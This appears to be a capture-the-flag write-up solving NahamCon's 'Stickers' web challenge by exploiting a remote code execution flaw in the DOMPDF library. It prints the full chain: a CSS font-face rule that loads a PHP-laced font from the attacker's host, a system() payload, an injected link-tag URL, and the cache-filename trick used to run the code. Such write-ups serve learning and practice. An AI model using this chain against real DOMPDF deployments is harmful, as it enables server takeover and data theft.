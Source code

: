 XSS 𝔽𝕠𝕟𝕥𝕔𝕖𝕡𝕥𝕚𝕠𝕟

Hello everyone! At the time of release, NahamCon has wrapped up their annual CTF event which I found to be extremely enjoyable and thought-provoking. I found one particular challenge to be very interesting and wanted to showcase the solution to their challenge Stickers.

![](https://miro.medium.com/v2/resize:fit:764/1*fTlKSMltVkq3gYDan3SEsA.png)

The challenge first takes you to a web application that accepts user-supplied input in various forms. Before any testing, I submitted some arbitrary information to see how the application processed this.

![](https://miro.medium.com/v2/resize:fit:764/1*4PncvDKs-U8oJW7UNNdEDg.png)

Upon submission, the input is converted from HTML to PDF.

![](https://miro.medium.com/v2/resize:fit:709/1*8j625j4Wy1R1T4xMROcQWQ.png)

My initial presumption was that this challenge was going to involve either [SSRF](https://portswigger.net/web-security/ssrf) or injecting some PDF code to perform XSS. I read through some great articles on the subject, most particularly, [_Portable Data exFiltration: XSS for PDFs_](https://portswigger.net/research/portable-data-exfiltration)_,_ however, with the flag.txt file residing outside the environment of the PDF, it did not seem of much fruition.

Continuing my testing, analyzing the HTTP response in Burpsuite highlighted something of interest.

![](https://miro.medium.com/v2/resize:fit:392/1*Ooyez2rIai0elmPo0jMwxA.png)

DOMPDF is a PHP library that can be used to easily create PDFs from various HTML pages in PHP. At its core, it allows for the generation of PDF documents from HTML content using the CSS and layout capabilities of the web.

After doing some quick research on the specific version number, it appears to be [vulnerable](https://www.cvedetails.com/vulnerability-list/vendor_id-21291/product_id-64244/version_id-528074/Dompdf-Project-Dompdf--.html) to Remote Code Execution. Because the form fields will accept HTML tags, we can also try and submit a reference to CSS or a CSS file. This vulnerability exists due to the improper input validation of the ‘src’ field of a CSS statement, ultimately allowing PHP code to be embedded within the referenced file. The validation also only ensures the file type is supported, but pays no attention to the contents of the file. Not only does this external style sheet get rendered by the DOMPDF library, but it also is saved in the local cache and then referenced by the DOMPDF framework.

I decided to create a CSS file that will load our external style sheet and render the font file with our embedded PHP.
```CSS
@font-face {  
  font-family:'test';  
  src:url('http://<DOMAIN>:1337/test.php');  
  font-weight:'normal';  
  font-style:'normal';  
}
```


Then I created a test.php file using the exploit font file [here](https://github.com/snyk-labs/php-goof/tree/main/exploits) and changed the PHP payload to the following:

(RAW CONTENT AVAILABLE AT LINK)  
```php
<?php system("cat /flag.txt"); ?>
```

I hosted these files through a python web server and then used a <link rel>
attribute in the _organisation_ parameter to reference the malicious .css and .php. Keep in mind the naming convention of the font file must be the same as the _font-family_ attribute.

```
http://challenege.nahamcon:31583/quote.php?organisation=%3Clink+rel%3Dstylesheet+href%3D%27http%3A%2F%2F<IP>:<ListeningPort>/test.css%27%3E&email=email%40email.com&small=1&medium=2&large=4
```

To execute our embedded PHP, we need to reference the file name of the cached font. This [article](https://www.optiv.com/insights/source-zero/blog/exploiting-rce-vulnerability-dompdf) by Optiv details the fairly simple naming convention of these cached fonts.

```
filename = fontname+_+style+_+md5 hash+.+file extension
```

While this may sound overly complex, the solution is quite simple. We can easily calculate the MD5 hash by running the command:

```bash
echo -n "http://<IP>:<PORT>/test.php" |md5sum
```

Using this output we can navigate to where our cached font file resides by supplying the file path /dompdf/lib/fonts/test_normal_<md5hash>.php in the URL. Upon navigating to the link our embedded PHP code is executed returning the contents of the flag.txt file.

![](https://miro.medium.com/v2/resize:fit:764/1*Cs5nhwywcFtOLxcsK4uPSg.png)

If you’ve made it this far, I hope you may have learned something new. I sure did and found this challenge to be fairly difficult, but quite rewarding. Thanks for STICKERing around…

**Resources/Links:**

https://snyk.io/blog/security-alert-php-pdf-library-dompdf-rce/)(https://snyk.io/blog/security-alert-php-pdf-library-dompdf-rce/
https://www.optiv.com/insights/source-zero/blog/exploiting-rce-vulnerability-dompdf)(https://www.optiv.com/insights/source-zero/blog/exploiting-rce-vulnerability-dompdf  
https://github.com/positive-security/dompdf-rce/](https://github.com/positive-security/dompdf-rce/
